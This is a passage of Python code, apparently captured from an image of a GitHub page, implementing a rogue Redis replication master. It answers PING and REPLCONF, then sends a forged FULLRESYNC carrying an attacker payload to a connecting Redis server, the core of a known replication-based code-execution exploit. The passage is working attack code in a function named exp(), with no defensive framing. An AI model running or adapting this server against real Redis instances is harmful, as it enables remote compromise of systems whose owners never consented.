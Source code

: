```python
    resp = ""
    phase = 0
    if data.find("PING") > -1:
        resp = "+PONG" + CLRF
        phase = 1
    elif data.find("REPLCONF") > -1:
        resp = "+OK" + CLRF
        phase = 2
    elif data.find("PSYNC") > -1 or data.find("SYNC") > -1:
        resp = "+FULLRESYNC " + "Z" * 40 + " 0" + CLRF
        resp += "$" + str(len(payload)) + CLRF
        resp = resp.encode()
        resp += payload + CLRF.encode()
        phase = 3
    return resp, phase


def din(sock, cnt):
    msg = sock.recv(cnt)
    verbose = 1
    if verbose:
        if len(msg) < 300:
            print("\033[1;34;40m[->]\033[0m {}".format(msg))
        else:
            print("\033[1;34;40m[->]\033[0m {}......{}".format(msg[:80], msg[-80:]))
    if sys.version_info < (3, 0):
        res = re.sub(r'[^\x00-\x7f]', r'', msg)
    else:
        res = re.sub(b'[^\x00-\x7f]', b'', msg)
    return res.decode()


def exp():
    try:
        cli = conn
        while True:
            data = din(cli, 1024)
            if len(data) == 0:
                break
            resp, phase = handle(data)
            dout(cli, resp)
            if phase == 3:
                break
    except Exception as e:
        print("\033[1;31;m[-]\033[0m Error: {}, exit".format(e))
        #cleanup(self._remote, self._file)
        exit(0)
    except KeyboardInterrupt:
        print("[-] Exit..")
        exit(0)

exp()
```
